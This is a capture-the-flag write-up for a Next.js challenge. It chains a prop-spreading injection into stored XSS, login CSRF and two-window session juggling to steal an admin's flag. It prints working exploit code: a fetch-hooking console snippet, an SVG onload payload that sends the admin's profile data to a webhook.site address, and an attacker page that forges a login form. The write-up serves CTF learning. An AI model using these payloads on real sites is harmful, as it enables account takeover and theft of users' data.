



# React2XSS Writeup

## Challenge Overview

The challenge is a Next.js application with source code provided and an online instance.

Flag format:

```text
PUCTF26{[a-zA-Z0-9_]+_[a-fA-F0-9]{32}}
```

The goal is to make the bot visit our payload while authenticated as `admin`, then exfiltrate the admin flag.

---

## 1. Where is the flag?

First, check the database initialization logic in `lib/db.ts`:

```ts
db.prepare('INSERT INTO users (username, password, is_admin, bio, data) VALUES (?, ?, ?, ?, ?)').run(
  ADMIN_USERNAME,
  ADMIN_PASSWORD,
  1,
  FLAG,
  '{"website": "http://example.com", "location": "NuttyShell"}'
);
```

This tells us:

- The admin username is fixed as `admin`
- **The flag is stored directly in the admin user's `bio` field**

So if we can read the admin profile while the bot is logged in as admin, we get the flag.

---

## 2. Finding the injection point

We need to understand how user-controlled profile data is stored and rendered.

### 2.1 Arbitrary fields can be written into `user.data`

Look at `app/api/profile/update/route.ts`:

```ts
const { bio, ...dynamicFields } = await request.json();

let userData: Record<string, any> = {};
try {
  userData = JSON.parse(user.data || '{}');
} catch (e) {
  userData = {};
}

const updatedData = {
  ...userData,
  ...dynamicFields
};
```

Important details:

- The backend extracts `bio` from the request body
- Everything else goes into `dynamicFields`
- `dynamicFields` is merged directly into `user.data`

That means:

> **Aside from `bio`, we can write arbitrary JSON fields into our own `user.data`.**

---

### 2.2 `viewProgressStyle` is spread directly onto a DOM element

Now check the homepage in `app/page.tsx`:

```tsx
<progress max={100} value={viewCount} {...userData.viewProgressStyle} />
```

This is the key line.

`userData.viewProgressStyle` is directly spread onto a native DOM element, `<progress>`. If we control that object, we may be able to inject more than just CSS.

For example:

```json
{
  "viewProgressStyle": {
    "dangerouslySetInnerHTML": {
      "__html": "<svg onload=alert(1)>"
    }
  }
}
```

If that object gets spread into the DOM node, then `<progress>` effectively becomes an HTML injection sink, leading to **stored XSS**.

---

## 3. Why the frontend looks restrictive, but the backend is not

The settings page in `app/account/settings/page.tsx` does this:

```ts
const parsedStyle = JSON.parse(viewProgressStyleJson);
viewProgressStyle = { style: parsedStyle };

body: JSON.stringify({ bio, website, location, viewProgressStyle })
```

So under normal usage, the frontend only submits something like:

```json
{
  "viewProgressStyle": {
    "style": { ... }
  }
}
```

This looks like it only allows CSS changes.

But the backend never validates the structure of `viewProgressStyle`. So if we intercept the outgoing request in the browser and modify the body, we can replace it with:

```json
{
  "viewProgressStyle": {
    "dangerouslySetInnerHTML": {
      "__html": "<svg onload=...>"
    }
  }
}
```

This bypasses the frontend restriction entirely.

---

## 4. Confirming the stored XSS locally

Open `/account/settings` while logged into your own account, then use DevTools Console to hook `fetch` and rewrite the request body:

```js
const PAYLOAD = `<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>`;

const origFetch = window.fetch;
window.fetch = async (url, opts = {}) => {
  if (typeof url === 'string' && url.includes('/api/profile/update')) {
    const body = JSON.parse(opts.body);
    body.viewProgressStyle = {
      dangerouslySetInnerHTML: {
        __html: PAYLOAD
      }
    };
    opts.body = JSON.stringify(body);
    window.fetch = origFetch;
  }
  return origFetch(url, opts);
};

alert('Now click Update Profile once normally');
```

Then:

1. Change something trivial in the profile
2. Click **Update Profile**
3. Go back to `/`

If the alert pops, then we have verified:

- Object injection into `viewProgressStyle` works
- `dangerouslySetInnerHTML` reaches the DOM
- **Stored XSS is real**

---

## 5. What the bot actually does

In `lib/bot.ts`:

```ts
await page.goto(`${BOT_CONFIG.APPURL}/login`, { waitUntil: 'load' });

await page.fill('input[id="username"]', ADMIN_USERNAME);
await page.fill('input[id="password"]', adminUser.password);
await page.click('button[type="submit"]');
await sleep(BOT_CONFIG.WAIT_AFTER_LOGIN);

await page.goto(urlToVisit, { waitUntil: 'load' });
await sleep(BOT_CONFIG.WAIT_AFTER_VISIT);
```

And in `lib/config.ts`:

```ts
APPURL: process.env.APPURL || 'http://localhost:3000',
WAIT_AFTER_LOGIN: 1000,
WAIT_AFTER_VISIT: 5000,
```

So the bot flow is:

1. **Log in as admin on `http://localhost:3000`**
2. Visit our reported URL
3. Stay there for 5 seconds, then close

This has two important consequences.

### 5.1 The real authenticated origin is `http://localhost:3000`

Not the public challenge URL.

### 5.2 If the bot simply opens `http://localhost:3000/`

It will see the **admin homepage**, not ours.

So the hard part of the challenge is not “Can we get XSS?”

It is:

> **How do we make the bot load our stored-XSS profile while still preserving admin-only data somewhere we can read from?**

---

## 6. Why opening `/` directly is not enough

On the homepage (`app/page.tsx`), the app reads the current session:

```ts
const currentUser = await getCurrentUser();
const user = userDb.findById(currentUser.userId);
```

So the page always displays the profile of the user bound to the current session.

That means:

- If admin opens `/`, the bot sees the admin homepage
- Our stored XSS only exists on **our own profile data**
- The bot will not automatically load our profile

Therefore the intended exploitation has to use **two windows**:

1. One window keeps a page containing **admin data**
2. Another window gets switched to **our account**
3. Our stored XSS then reads the DOM of the admin window

---

## 7. Why `/api/profile` is better than `/`

Look at `app/api/profile/route.ts`:

```ts
return NextResponse.json({
  id: user.id,
  username: user.username,
  bio: user.bio,
  ...userData,
});
```

If the bot is logged in as admin, then visiting `/api/profile` returns JSON like:

```json
{
  "id": 1,
  "username": "admin",
  "bio": "PUCTF26{...}"
}
```

This is much more convenient than scraping HTML.

So the idea is to point the “admin window” at:

```text
http://localhost:3000/api/profile
```

Then `document.body.innerText` is basically raw JSON containing the flag.

---

## 8. Exploit strategy

The final plan is:

### Step 1: Register a normal user

For example:

```text
username: aaaabbbb
password: aaaabbbbcc
```

The password must be at least 10 characters.

---

### Step 2: Store an XSS payload in our profile

We inject the payload into:

```json
viewProgressStyle.dangerouslySetInnerHTML.__html
```

A suitable payload is:

```js
const HOOK = 'https://webhook.site/your-uuid';

const PAYLOAD = `<svg xmlns="http://www.w3.org/2000/svg" onload="
(()=>{ 
  const send = (m) => (new Image()).src='${HOOK}?x=' + encodeURIComponent(m) + '&t=' + Date.now();
  try {
    const w = window.open('', 'flagwin');
    const txt = (w && w.document && w.document.body) ? w.document.body.innerText : 'NO_BODY';
    const m = txt.match(/PUCTF26\\{[A-Za-z0-9_]+_[A-Fa-f0-9]{32}\\}/);
    send(m ? m[0] : txt.slice(0,500));
  } catch (e) {
    send('ERR=' + String(e));
  }
})()
"></svg>`;
```

This payload:

- Reopens the named window `flagwin`
- Reads `flagwin.document.body.innerText`
- Extracts the flag with a regex
- Sends it to our webhook

---

### Step 3: Prepare an external attacker page

This attacker page needs to do two things:

#### 3.1 Open a named window called `flagwin`

Point it to:

```text
http://localhost:3000/api/profile
```

Since the bot is still logged in as admin at that moment, `flagwin` contains admin JSON with the flag inside `bio`.

#### 3.2 Switch another localhost window to our account, then open `/`

Our stored XSS only triggers on **our homepage**, so we need the bot to reach `/` while authenticated as us.

---

## 9. The intended account-switching primitive: login CSRF

The login handler is:

```ts
const { username, password } = await request.json();
await createSession(user.id, user.username);
```

There is no CSRF protection on `/api/auth/login`.

So in principle, if we can make the bot send a valid JSON POST request to:

```text
http://localhost:3000/api/auth/login
```

then the localhost session becomes our account.

### Why direct `fetch()` is unreliable

In a real browser environment, making a cross-origin script request from an external site to `http://localhost:3000` is fragile because of browser restrictions around localhost and cross-origin requests.

A more plausible route is:

- Use an **HTTP** attacker page
- Use a regular **HTML form**
- Target another window, such as `workwin`

---

## 10. Attacker page sketch

A practical form of the attacker page looks like this:

```html
<!doctype html>
<meta charset="utf-8">
<title>react2xss</title>
<script>
const LOCAL = 'http://localhost:3000';
const USER = 'aaaabbbb';
const PASS = 'aaaabbbbcc';

window.onload = () => {
  // 1) Preserve admin profile JSON
  const flagwin = window.open(LOCAL + '/api/profile', 'flagwin');

  // 2) Open a worker window
  const workwin = window.open(LOCAL + '/login', 'workwin');

  // 3) Submit a text/plain form that becomes valid JSON
  setTimeout(() => {
    const form = document.createElement('form');
    form.method = 'POST';
    form.action = LOCAL + '/api/auth/login';
    form.enctype = 'text/plain';
    form.target = 'workwin';

    const inp = document.createElement('input');
    inp.type = 'hidden';

    // Attempt to construct a valid JSON body
    inp.name = `{"username":"${USER}","password":"${PASS}","x":"`;
    inp.value = '"}';

    form.appendChild(inp);
    document.body.appendChild(form);
    form.submit();
  }, 150);

  // 4) Repeatedly navigate workwin to /
  setTimeout(() => { workwin.location = LOCAL + '/'; }, 800);
  setTimeout(() => { workwin.location = LOCAL + '/'; }, 1500);
  setTimeout(() => { workwin.location = LOCAL + '/'; }, 2500);
  setTimeout(() => { workwin.location = LOCAL + '/'; }, 3500);
};
</script>
```

---

## 11. Why this gets the flag

The full sequence is:

### 11.1 The bot logs in as admin

Now `http://localhost:3000` is in an authenticated admin session.

### 11.2 The bot visits our attacker page

Our attacker page opens:

```text
http://localhost:3000/api/profile
```

inside `flagwin`.

Since the session is still admin, `flagwin` now contains admin profile JSON with the flag in `bio`.

### 11.3 The attacker page switches another localhost window to our account

Through login CSRF, `workwin` receives our session.

### 11.4 The attacker page navigates `workwin` to `/`

At this point, `workwin` loads **our homepage**, not admin’s homepage.

### 11.5 Our stored XSS executes

Because we poisoned `viewProgressStyle` with `dangerouslySetInnerHTML`, opening `/` triggers our stored XSS.

### 11.6 The XSS reads `flagwin`

Both windows are now same-origin under `http://localhost:3000`, so the XSS can do:

```js
const w = window.open('', 'flagwin');
const txt = w.document.body.innerText;
```

That text is the admin profile JSON, so extracting the flag is straightforward.

---

## 12. My Mistake

### 12.1 Use an HTTPS attacker page, not HTTP

The internal app runs on:

```text
http://localhost:3000
```

An HTTPS attacker page interacting with HTTP localhost is much more likely to hit browser restrictions.

---

### 12.2 The bot only waits 5 seconds , I only attack 1 time.

From the config:

```ts
WAIT_AFTER_VISIT: 5000
```

So the exploit has to be fast. That is why the attacker page repeatedly navigates `workwin` back to `/`.

---


## 13. Vulnerability summary

At its core, this is a classic case of:

> **The frontend looks like it only lets you edit styles, but the backend merges arbitrary JSON into user-controlled state, which is later spread onto a DOM node.**

The full chain is:

1. `/api/profile/update` lets us store arbitrary JSON fields in `user.data`
2. The homepage spreads `userData.viewProgressStyle` onto `<progress>`
3. We inject `dangerouslySetInnerHTML`
4. That gives us stored XSS
5. The bot first logs in as admin, then visits our external URL
6. We use a two-window setup to preserve admin DOM in one window and trigger our XSS in another
7. Our XSS reads admin data from the preserved window and extracts the flag

---

## 14. Closing notes

The interesting part of this challenge is not the XSS itself. The XSS is relatively straightforward once you notice the unsafe object spread.

The real challenge is:

- Realizing the bot logs into `localhost`, not the public host
- Preserving an admin-authenticated page in one window
- Triggering our stored XSS from our own profile in another window
- Finally reading the admin window from our XSS

A concise summary of the intended chain is:

> **Arbitrary JSON write + React prop spread to DOM + stored XSS + two-window session juggling = flag**

## 15. What I Learned

- Open the webhook to view the request.
- Create the GitHub Pages site to host exploit.html for the bot to visit. 

~~It is my first time to do that XDDD~~ 

